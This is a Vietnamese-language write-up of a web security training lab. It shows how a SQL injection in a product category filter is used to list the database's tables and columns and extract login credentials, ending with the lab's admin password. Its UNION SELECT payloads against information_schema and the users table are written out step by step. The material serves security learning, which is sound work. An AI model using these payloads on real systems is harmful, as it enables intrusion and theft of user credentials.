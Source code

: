 # WEB

*Lab: SQL injection attack, listing the database contents on non-Oracle databases*

## Tóm tắt

Khai thác lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm để liệt kê toàn bộ cấu trúc CSDL (tên bảng, tên cột) và trích xuất thông tin tài khoản đăng nhập, cụ thể là username/password của admin, nhằm đăng nhập và hoàn thành lab.
## Khai thác

1. Truy cập trang web và chọn một danh mục, ở đây chọn “Gifts”.

![alt text](images/image.png)

2. Chặn request bằng Burp Suite, gửi sang Repeater. Payload injection nằm ở parameter `category`.

![alt text](images/image-1.png)
3. Xác định số lượng cột trả về bằng cách thử `'UNION SELECT NULL,...` cho đến khi thành công (không báo lỗi).  Ở đây khi có 2 NULL thì server báo 200 OK =>có 2 cột
![alt text](images/image-2.png)
4. Xác định cột chứa text.
- Dùng lệnh 'UNION SELECT 'abc','def' -- để xác định cột hiển thị text.
![alt text](images/image-3.png) 
5. Liệt kê tên các bảng trong database 
- Sử dụng bảng hệ thống chứa danh sách bảng information_schema.tables.
- Câu lệnh 'UNION SELECT table_name,NULL FROM information_schema.tables-- để trích xuất tên bảng.
- Tìm bảng có tên người dùng. Ở đây là bảng users_wbkzez.
![alt text](images/image-4.png)
6. Liệt kê các tên cột của bảng user_wbkzez.
- Dùng lệnh'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_wbkzez'--
![alt text](images/image-5.png)
- Các cột password, user lần lượt là: password_uyqyeb, username_zdvpbd.
7. Trích xuất dữ liệu đăng nhập
- Dùng lệnh 'UNION SELECT username_zdvpbd,password_uyqyeb FROM users_wbkzez--
![alt text](images/image-6.png)
- Tìm được tài khoản admin: administrator: 1hhquj6nzg7tk6ojfbel
8. Đăng nhập bằng tài khoản admin để hoàn thành lab
![alt text](images/image-7.png)
